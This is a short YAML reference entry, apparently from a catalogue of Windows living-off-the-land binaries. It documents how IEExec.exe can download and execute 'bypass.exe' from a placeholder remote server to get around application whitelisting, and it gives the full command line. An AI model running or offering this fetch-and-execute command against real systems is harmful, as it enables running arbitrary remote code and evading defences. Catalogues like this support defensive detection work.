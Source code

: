 ---
Name: IEExec.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: 'Executes bypass.exe from the remote server.'
Full Path:
  - c:\windows\system32\ieexec.exe
  - c:\windows\sysWOW64\ieexec.exe
Code Sample: []
Detection: []
Resources:
  - https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Notes: Thanks to Casey Smith - @subtee

